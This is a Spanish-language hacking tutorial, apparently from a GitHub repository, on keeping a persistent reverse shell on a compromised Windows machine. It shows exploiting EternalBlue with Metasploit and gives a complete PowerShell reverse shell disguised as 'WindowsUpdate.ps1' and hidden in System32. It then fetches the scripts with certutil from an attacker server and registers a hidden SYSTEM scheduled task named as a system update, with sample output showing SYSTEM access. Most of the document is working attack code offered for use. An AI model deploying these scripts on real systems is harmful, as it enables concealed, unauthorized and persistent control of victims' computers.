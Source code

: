 # Shell Persistente mediante PowerShell Windows

### Intrusion a la maquina (Ejemplo)

Primero tendremos que comprometer una maquina `windows`, por ejemplo pongamos que es vulnerable al `Eternal Blue`, abriremos `metasploit`.

```shell
msfconsole -q
```

Una vez dentro ejecutamos los siguientes comandos para la intrusion:

```shell
use windows/smb/ms17_010_eternalblue
set RHOST <IP_VICTIM>
exploit
```

Una vez que estemos dentro, programaremos los scripts en nuestra maquina atacante...

### Scripts para persistencia mediante PowerShell

Codigo `WindowsUpdate.ps1` para hacernos la `reverse shell` desde windows:

```powershell
while ($true) {
    try {
        # Intenta conectarse al puerto especificado
        $client = New-Object System.Net.Sockets.TcpClient("<IP>", <PORT>)
        $stream = $client.GetStream()
        $writer = New-Object System.IO.StreamWriter($stream)
        $writer.AutoFlush = $true
        $reader = New-Object System.IO.StreamReader($stream)

        # Escribe una línea indicando la conexión
        $writer.WriteLine("Conexión establecida desde $($env:COMPUTERNAME)")

        # Bucle de comandos
        while ($true) {
            # Espera un comando del cliente
            $writer.Write("shell> ")  # Indica que está listo para recibir un comando
            $cmd = $reader.ReadLine()
            
            if ($cmd -eq 'exit') {
                $writer.WriteLine("Cerrando conexión...")
                break
            }

            try {
                # Ejecuta el comando y captura la salida
                $output = Invoke-Expression $cmd 2>&1

                # Convierte la salida a cadena y envía de vuelta al cliente
                if ($output -is [System.Array]) {
                    $output = $output -join "`n"  # Unir elementos del array en líneas
                }
                
                # Envía la salida de vuelta al cliente
                if ($output) {
                    $writer.WriteLine($output)
                } else {
                    $writer.WriteLine("Comando ejecutado correctamente.")
                }
            }
            catch {
                # Manejo de errores
                $writer.WriteLine("Error: $_")
            }
        }

        # Cierra la conexión
        $client.Close()
    }
    catch {
        # Espera 5 segundos antes de volver a intentar si falla
        Start-Sleep -Seconds 5
    }
}
```

Cambiar `<IP>` y `<PORT>` por las necesidades de cada uno.

Despues crear `Update.ps1` que sera el que ejecute en bucle el archivo `WindowsUpdate.ps1`:

```powershell
while ($true) {
    powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\WindowsUpdate.ps1
    Start-Sleep -Seconds 5
}
```

### Pasar scripts a la maquina victima mediante metasploit

Tendremos que pasar esos archivos a la maquina victima, en mi caso lo llevare a `C:\Windows\System32` para que se quede bien camuflado.

```shell
cd C:\Windows\System32\
```

Si estamos en `metasploit` con la maquina comprometida podremos subirlos de la siguiente forma:

```shell
upload WindowsUpdate.ps1
upload Update.ps1
```

Despues ejecutaremos `shell`, para obtener la `shell` de `windows`.

### Pasar scripts a la maquina victima mediante terminal

Imaginemos que no estamos utilizando `metasploit` lo podremos hacer de esta otra forma...

Primero nos abriremos un servidor de `python3`.

```shell
python3 -m http.server
```

En la maquina victima que habremos comprometido de `windows` con una `shell` normal, pondremos los sigueintes comandos:

```shell
cd C:\Windows\System32\
certutil.exe -f -urlcache -split http://<IP>:8000/WindowsUpdate.ps1 WindowsUpdate.ps1
certutil.exe -f -urlcache -split http://<IP>:8000/Update.ps1 Update.ps1
```

Asi nos pasaremos los 2 archivos a la maquina victima.

### Programar persistencia en la maquina victima

Despues en la maquina `windows` que tenemos comprometida, ejecutaremos el siguiente comando:

```shell
schtasks /create /tn "Actualización de Sistema" /tr "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\WindowsUpdate.ps1" /sc onstart /ru "SYSTEM" /rl highest /f
```

Info:

```
schtasks /create /tn "Actualización de Sistema" /tr "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\Update.ps1" /sc onstart /ru "SYSTEM" /rl highest /f
Correcto: se cre correctamente la tarea programada "Actualización de Sistema".
```

Con esto ya habriamos creado la tarea programada en `windows`, lo comprobaremos de la siguiente forma:

```shell
schtasks /query /tn "Actualización de Sistema"
```

Info:

```
Carpeta: \
Nombre de tarea                          Hora prxima ejecucin Estado         
======================================== ====================== ===============
Actualización de Sistema                 No disponible          Listo          
```

Despues probaremos a estar a la escucha en nuestra maquina atacante:

```shell
nc -lvnp <PORT>
```

Y en la maquina victima ejecutaremos el siguiente codigo para saber que todo se carga correctamente:

```shell
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\WindowsUpdate.ps1
```

Una vez comprobado, ya podremos reiniciar el equipo, hacer lo que queramos, hacerle `Ctrl+C` a la `shell` y volver a estar a la escucha para otra vez recuperarla, ya tendremos `persistencia`.

### Escucha mediante terminal

Ahora podremos obtener la `shell` todas las veces que queramos por que se estara ejecutando cada 5 segundos, por lo que solo tendremos que poner el siguiente comando:

```shell
nc -lvnp <PORT>
```

Y todas las veces que pongamos eso nos hara una `shell` cada 5 segundos, aunque reinicie el sistema y vuelva a ejecutarse `windows` podremos seguir obteniendola.

Info:

```
listening on [any] 7777 ...
connect to [192.168.5.147] from (UNKNOWN) [192.168.5.141] 49193
ConexiÃ³n establecida desde VULN-SMBV2
shell> whoami
nt authority\system
```

### Escucha mediante metasploit

Tambien lo podemos hacer mediante `metasploit`.

```shell
msfconsole -q
```

Una vez dentro ejecutaremos los siguiente comandos:

```shell
use multi/handler
set LHOST <IP>
set LPORT <PORT>
run
```

Y con esto obtendremos una `shell` mediante `metasploit`.

### Eliminar la tarea persistente y los scripts

Pondremos los siguientes comandos dentro de la maquina `windows`:

```shell
del WindowsUpdate.ps1
del Update.ps1
schtasks /delete /tn "Actualización de Sistema" /f
```

Y con esto ya habriamos dejado limpio el sistema.
